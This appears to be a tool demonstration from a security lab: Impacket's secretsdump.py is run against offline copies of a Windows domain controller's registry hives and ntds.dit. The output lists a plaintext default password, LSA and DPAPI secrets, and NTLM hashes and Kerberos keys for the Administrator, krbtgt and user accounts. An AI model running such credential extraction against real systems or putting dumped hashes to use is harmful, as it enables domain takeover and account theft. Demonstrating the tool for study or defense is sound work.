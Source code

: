 ```
$ secretsdump.py -system /home/seclab/windows-2012/ntds/registry/SYSTEM -security /home/seclab/windows-2012/ntds/registry/SECURITY -ntds /home/seclab/windows-2012/ntds/Active\ Directory/ntds.dit LOCAL
Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies

[*] Target system bootKey: 0xb6570f7db706f37a5b79e72ab8c44b8a
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:708faf9c9842a10735ecab33cc64ed37
[*] DefaultPassword
(Unknown User):ROOT#123
[*] DPAPI_SYSTEM
 0000   01 00 00 00 8F 04 A9 BA  67 3B 83 81 09 62 0E 80   ........g;...b..
 0010   81 81 DB 99 FF 3E 7A F8  EE 80 BC 7F 8F C8 FA DE   .....>z.........
 0020   3D BE 24 6D 30 38 84 48  1A 5F B3 11               =.$m08.H._..
[*] NL$KM
 0000   39 7B 96 FE 24 6D B9 58  44 A6 DF 78 77 F9 78 C9   9{..$m.XD..xw.x.
 0010   72 F8 57 E6 C9 60 65 07  50 F5 EA 81 D7 5B A1 D2   r.W..`e.P....[..
 0020   D3 46 E8 67 3F C1 C8 8C  44 91 EA 62 20 9E 5A 58   .F.g?...D..b .ZX
 0030   E4 C1 25 24 4F 01 6F AF  88 04 5F 33 89 FE D5 1E   ..%$O.o..._3....
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 0487dfc92c64213bdf39ca382d7baea8
[*] Reading and decrypting hashes from /home/seclab/windows-2012/ntds/Active Directory/ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc1fc80e9f128261a6bc463cb31e65b5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SERVER$:1003:aad3b435b51404eeaad3b435b51404ee:708faf9c9842a10735ecab33cc64ed37:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:23ed7e50c091488d46c46ca69b428979:::
wchen:1109:aad3b435b51404eeaad3b435b51404ee:fe72ec788d6739b4ac05033fecae793c:::
jhart:1110:aad3b435b51404eeaad3b435b51404ee:d491885ff154677f71291be4517d7177:::
SERVER2008$:1111:aad3b435b51404eeaad3b435b51404ee:db96a49b7ecf92cfd3a20b0c8048eef1:::
john:1112:aad3b435b51404eeaad3b435b51404ee:6944c3f3a4ad58896b5fdb55b29f4fdf:::
JOHN$:1113:aad3b435b51404eeaad3b435b51404ee:3926a5fc5b0eb8b373ebfc37d2f478d6:::
[*] Kerberos keys from /home/seclab/windows-2012/ntds/Active Directory/ntds.dit
SERVER$:aes256-cts-hmac-sha1-96:cc03dbc4f30db35f8f2a3894f3dccea99207f6180db7c9f98a1a363f80986e22
SERVER$:aes128-cts-hmac-sha1-96:a43c9870cf2798fd86eb502391281df9
SERVER$:des-cbc-md5:b9ef3b08b55e8998
krbtgt:aes256-cts-hmac-sha1-96:f5f37669f8fe6b10a3b65dddf09f80f78b1ce1f351e47130adfb70aa81eeff82
krbtgt:aes128-cts-hmac-sha1-96:a3bea9e21a87976f582de5a9a4c6784a
krbtgt:des-cbc-md5:028adaf497028076
wchen:aes256-cts-hmac-sha1-96:c979d56fa938026e30ef8e8959ded691dcdc1abfb62c79e9061e42cb3ea5cd6f
wchen:aes128-cts-hmac-sha1-96:464ee4707eb40a19d833afe1e5be6244
wchen:des-cbc-md5:0be69b2ada3dbcf4
jhart:aes256-cts-hmac-sha1-96:d1bb033c02346050588ac074871f7c13be08952936d0443221de2af820181407
jhart:aes128-cts-hmac-sha1-96:dc6f858f75486dd03f9b88dd3a0cd41f
jhart:des-cbc-md5:895d10bf830d7961
SERVER2008$:aes256-cts-hmac-sha1-96:f88aa76cd58df5804762bcae3607a36566b299394622cd3a04e0f63baa179527
SERVER2008$:aes128-cts-hmac-sha1-96:ff258dfec8bfb3c0683eafb49799b943
SERVER2008$:des-cbc-md5:cb5e5e32dfa475b6
john:aes256-cts-hmac-sha1-96:6fb59e65a4ba99987759e87f4aa2435f155a15233ddc1eb763250d495f94212e
john:aes128-cts-hmac-sha1-96:7e57a1d9f658456ec4ce24282d80a835
john:des-cbc-md5:ea8aadecea46e6c4
JOHN$:aes256-cts-hmac-sha1-96:05edf93acc4dd9c08af27f1c3ee8674185087e5321b57f290ac764c1bfdc025c
JOHN$:aes128-cts-hmac-sha1-96:529d1632aa0283f7ba2d1c4ca216a22f
JOHN$:des-cbc-md5:e029798f8f92e0da
[*] Cleaning up...
```
